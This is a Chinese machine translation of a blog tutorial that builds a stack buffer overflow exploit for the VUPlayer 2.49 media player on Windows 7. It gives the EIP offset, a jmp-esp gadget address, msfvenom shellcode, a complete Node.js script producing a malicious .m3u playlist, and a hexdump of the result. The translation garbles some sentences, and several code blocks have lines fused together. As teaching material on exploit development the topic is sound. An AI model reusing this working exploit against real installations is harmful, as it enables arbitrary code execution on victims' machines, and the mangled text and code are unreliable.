









# Windows 漏洞开发:一个简单的缓冲区溢出示例

> 原文：<https://infosecwriteups.com/windows-expliot-dev-101-e5311ac284a?source=collection_archive---------0----------------------->

在本帖中，我们将为 Windows 7 上的一个真实应用编写一个漏洞，没有缓解措施(DEP 和 ASLR)。我们将针对加载播放列表时容易出现缓冲区溢出的 VUPLayer 2.49。这是我们的测试对象的样子:



好看的复古 GUI)

## 第一轮

为了防止缓冲区溢出，我们使用这个简单的 nodejs 脚本创建了一个只包含“A”和“B”的长列表:

```
const blockSize = 2000
for (let i = 0; i < 3; i++) {
  const char = String.fromCharCode(0x41 + i) // A B
  process.stdout.write(char.repeat(blockSize))
}
**>> nodejs 1sttry.js > sample.m3u**
```

让我们附加一个调试器，加载样本播放列表并分析崩溃。



我们有效地使应用程序崩溃，并用**0x 41414141(‘AAAA’)**覆盖 EIP。我们确信我们遇到了缓冲区溢出，现在我们需要测量缓冲区的长度，以便用我们想要的任何值覆盖 EIP。我们应该尝试用已知的值覆盖 ESP 和 EIP。

## 第二轮

我们可以尝试使用更小的字节块来提高精度。使用 500 字节长的块，我们得到指向 **0x0012EEAC** 的 ESP，其中填充了 43(C)。


这里我们可以看到 ESP 指向 **0x0012EEAC** 和在 ESP 之前寻址的 43(C)s start**4。**

因此，为了达到 ESP，我们必须提供 500 个 A、500 个 B 和 16 个 C。

## 第三轮

我们将块大小更改为 **1016 字节**以匹配我们的计算，我们成功地达到了预期的 esp。



我们先从 ESP 开始放 1016 'A，然后是 1016 'B，然后是 1016 'C。

现在我们需要知道堆栈有多大。我们可以使用 radare2 的 ragg2 实用程序，使用 De Bruijn 模式对此进行测量

```
**ragg2 -P 2000 -r**
```

## 第四轮

我们的新 exploit.js 包括一个 De Bruijn 序列，看起来像这样:

```
const blockSize = 1012let buf = ''buf += 'A'.repeat(blockSize)
buf += 'D'.repeat(4) // overrides EIPconst r2pipe = require('r2pipe')
r2pipe.open("/bin/true",function (err, r2) {
  if (err) {
    console.error(err)
  } else {
    r2.syscmd(`**ragg2 -P ${blockSize} -r**`, function(err, o) {
      if (err) {
        console.error(err)
      } else {
        buf += o
        r2.quit()
        process.stdout.write(buf)
      }
    })
  }
})
```

我们来试试吧！



太好了！EIP = 0x 4444444 = = ' DDDD '



我们‘A’的组块从 **0x12EAb4** 开始，EIP 在 **0x12EEA8** 。使用 radare2，我们可以计算地址之间的差异。知道堆栈长度的第三种方法是直接提供一个布鲁日模式，然后在崩溃后得到 EIP 值的偏移。

```
**ragg2 -P 2000 -r > sample.m3u** # this generates a pattern 2000 bytes long
```

加载此样本后，m3u EIP 的值为 **0x41684641** ，如我们所料，其偏移量为 **1012** :



然后，我们可以通过将这个值减去 EIP 的内容地址来计算堆栈的开始位置，这个地址是 **0x12EAB4** (还是和预期的一样)



在这种环境下，我们不能将堆栈中的地址直接放入 EIP，因为堆栈地址以 **0x00** 开始，这是一个空字符，会阻止文件的其余部分被加载。我们需要使用间接方法跳转到包含有效载荷的堆栈部分。我们将找到一个包含“jmp esp”指令的地址，并用它覆盖 EIP。

使用 Immunity debugger 很容易找到地址:



```
!searchcode jmp esp
# then search for an address on an executable section that contains no null bytes, otherwise the exploit will fail!
```

这是这个小工具的新有效载荷:

```
const fs = require('fs')const fileName = 'sample.m3u'
const blockSize = 1012let buf = ''
buf += 'A'.repeat(blockSize)// overrides EIP with Address :  0x1010539f => jmp esp
// found with immunity by issuing the command : **!searchcode jmp esp**
// the address is on a **PAGE_EXECUTE_READ at BASSWMA.dll**
buf += "\x9f\x53\x10\x10"buf += 'D'.repeat(4) // ESPfs.writeFile(`./${fileName}`, buf, 'binary')
```

对于新的有效负载，EIP 被小工具的地址( **0x1010539f** )覆盖，我们在其后放置了一个占位符(‘DDDD’)。现在我们需要提供代码来代替占位符运行。

## 第五轮

我们可以使用 Metasploit 的 [**msfvenom**](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/) 来创建一个用于 PoC 漏洞利用的公共有效负载。它会弹出一个计算器。命令如下:

```
**msfvenom -a x86 --platform windows -p windows/exec CMD='calc.exe' -b '\x00\x09\x0a\x0d\x1a\x20' --format python**
```

确保禁止不良字符( *-b* 选项)，以便将整个漏洞载入堆栈。请记住，某些字符(如空字节)可能会提前终止我们的输入。

添加了 Metasploit 的外壳代码后，我们的漏洞如下所示:

```
const fs = require('fs')const fileName = 'totally-legit.m3u'const stackSize = 1012
const addressSize = 4 // 4 bytes == 1 address
const nopsled = lenght => '\x90'.repeat(lenght) // 0xcc = nopconst payload = () => {
  // msfvenom -a x86 --platform windows -p windows/exec CMD='calc.exe' -b '\x00\x09\x0a\x0d\x1a\x20' --format python buf =  ""
  buf += "\xdd\xc3\xba\xad\xd7\xf1\x1e\xd9\x74\x24\xf4\x5f\x31"
  buf += "\xc9\xb1\x31\x31\x57\x18\x83\xef\xfc\x03\x57\xb9\x35"
  buf += "\x04\xe2\x29\x3b\xe7\x1b\xa9\x5c\x61\xfe\x98\x5c\x15"
  buf += "\x8a\x8a\x6c\x5d\xde\x26\x06\x33\xcb\xbd\x6a\x9c\xfc"
  buf += "\x76\xc0\xfa\x33\x87\x79\x3e\x55\x0b\x80\x13\xb5\x32"
  buf += "\x4b\x66\xb4\x73\xb6\x8b\xe4\x2c\xbc\x3e\x19\x59\x88"
  buf += "\x82\x92\x11\x1c\x83\x47\xe1\x1f\xa2\xd9\x7a\x46\x64"
  buf += "\xdb\xaf\xf2\x2d\xc3\xac\x3f\xe7\x78\x06\xcb\xf6\xa8"
  buf += "\x57\x34\x54\x95\x58\xc7\xa4\xd1\x5e\x38\xd3\x2b\x9d"
  buf += "\xc5\xe4\xef\xdc\x11\x60\xf4\x46\xd1\xd2\xd0\x77\x36"
  buf += "\x84\x93\x7b\xf3\xc2\xfc\x9f\x02\x06\x77\x9b\x8f\xa9"
  buf += "\x58\x2a\xcb\x8d\x7c\x77\x8f\xac\x25\xdd\x7e\xd0\x36"
  buf += "\xbe\xdf\x74\x3c\x52\x0b\x05\x1f\x38\xca\x9b\x25\x0e"
  buf += "\xcc\xa3\x25\x3e\xa5\x92\xae\xd1\xb2\x2a\x65\x96\x4d"
  buf += "\x61\x24\xbe\xc5\x2c\xbc\x83\x8b\xce\x6a\xc7\xb5\x4c"
  buf += "\x9f\xb7\x41\x4c\xea\xb2\x0e\xca\x06\xce\x1f\xbf\x28"
  buf += "\x7d\x1f\xea\x4a\xe0\xb3\x76\xa3\x87\x33\x1c\xbb"
  return buf
}let buf = ''
buf += 'A'.repeat(stackSize) // overflow
// overrides EIP with Address :  0x1010539f => jmp esp
// found with immunity by issuing the command : !searchcode: jmp esp
// the address is on a PAGE_EXECUTE_READ at BASSWMA.dll
buf += "\x9f\x53\x10\x10"
buf += nopsled(addressSize*4) // just in case, not mandatory
buf += payload()fs.writeFile(`./${fileName}`, buf, 'binary', () => console.log(`Done! > ${fileName}`))
```

如果您查看由字节级漏洞创建的列表，您会看到如下内容:

```
**cat totally-legit.m3u | hexdump** ------------------------------------------------------------------
0000000 4141 4141 4141 4141 4141 4141 4141 4141 // 'A' block start
*
00003f0 4141 4141 **539f 1010** *9090 9090 9090 9090* // gadget + nops
0000400 *9090 9090 9090 9090* c3dd adba f1d7 d91e // shellcode starts
0000410 2474 5ff4 c931 31b1 5731 8318 fcef 5703
0000420 35b9 e204 3b29 1be7 5ca9 fe61 5c98 8a15
0000430 6c8a de5d 0626 cb33 6abd fc9c c076 33fa
0000440 7987 553e 800b b513 4b32 b466 b673 e48b
0000450 bc2c 193e 8859 9282 1c11 4783 1fe1 d9a2
0000460 467a db64 f2af c32d 3fac 78e7 cb06 a8f6
0000470 3457 9554 c758 d1a4 385e 2bd3 c59d efe4
0000480 11dc f460 d146 d0d2 3677 9384 f37b fcc2
0000490 029f 7706 8f9b 58a9 cb2a 7c8d 8f77 25ac
00004a0 7edd 36d0 dfbe 3c74 0b52 1f05 ca38 259b
00004b0 cc0e 25a3 a53e ae92 b2d1 652a 4d96 2461
00004c0 c5be bc2c 8b83 6ace b5c7 9f4c 41b7 ea4c
00004d0 0eb2 06ca 1fce 28bf 1f7d 4aea b3e0 a376
00004e0 3387 bb1c
00004e4
```

终于，我们向 pwn 开拓的时候到了！



如果你喜欢这篇文章，你可能想看看这些很棒的教程:

*   [https://www . corelan . be/index . PHP/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflow/](https://www.corelan.be/index.php/2009/07/19/exploit-writing-tutorial-part-1-stack-based-overflows/)
*   [https://www . corelan . be/index . PHP/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/](https://www.corelan.be/index.php/2009/07/23/writing-buffer-overflow-exploits-a-quick-and-basic-tutorial-part-2/)

[](https://twitter.com/syscall59) [## 艾伦(@syscall59) |推特

### 艾伦的最新推文(@syscall59)。功能过多的脚本小子

twitter.com](https://twitter.com/syscall59)